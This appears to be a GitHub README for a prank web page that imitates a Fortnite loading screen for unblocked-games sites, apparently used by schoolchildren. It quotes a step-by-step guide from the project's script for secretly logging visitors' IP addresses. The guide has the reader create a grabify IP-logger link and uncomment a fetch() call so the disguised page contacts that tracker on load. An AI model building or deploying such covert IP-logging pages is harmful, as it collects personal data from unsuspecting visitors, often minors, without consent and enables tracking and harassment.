 # maybe-forknight
In slang, a troll is a person who posts or makes inflammatory, insincere, digressive, extraneous, or off-topic messages online, or in real life, with the intent of provoking others into displaying emotional responses, or manipulating others' perception, thus acting as a bully or a provocateur.

troll'd

faux implemtation of the forknight loading screen, for your unblocked games site.

pls give credit(required as part of license, must be put when linking. DO NOT CLAIM THIS AS YOURS, or else i WILL file a takedown request.), this was orginally meant for 3kh0.github.io
```html
    <!--
        Hello there, small child. Do you want some free candy?
        ------------------------------------------------------
        Jokes aside, this is literally just a clone of the forknight loading screen, and everything seems real...
        
        a gnome is a small humanoid creature that lives underground.
        they are known for their ability to mine gems and precious metals.
        they are also known for their ability to steal your diamonds.
        The famous youtuber Dream has a pet gnome named GeorgeNotFound.
        GeorgeNotFound is a gnome that lives in a hole in the ground.
        He is known for his ability to steal diamonds from other players.
        He is also known for his ability to mine gems and precious metals.
           "You've been gnomed!" - GeorgeNotFound, 2021
                                            ^ satire, not true
    -->
```
 [index.html](index.html)
 ## Logging IP ADDRESSES
 Quoting from [script.js](script.js):
 ```javascript
     /*
    GUIDE FOR ACTUALLY LOGGING IP ADDRESSES
    I, @aeiea, do not condone for any harm or illegal activities done with the information provided, and withdraw all responsibility for any damages.
        
    Now, with the legal stuff out of the way, let me show you how to log IPs.
    1: generate a grabify.link logger. you can use any site.
    2: Find a subdomain that is unblocked.
    3: set that to the subdomain.
    You should have a link somewhat like this:
    https:// [blahblah] . [blah] / [blah]
    EG:
    https://shrekis.life/HA7V54N
    Now: 
    Uncomment line 91 or smth(which should look like // fetch('{PUT GRABIFY LINK HERE}');)
    by removing the double-slash('//'), and replace the '{PUT GRABIFY LINK HERE}' with your grabify link.
    
    it should look like:
    fetch('https://shrekis.life/HA7V54N');
    */
 ```
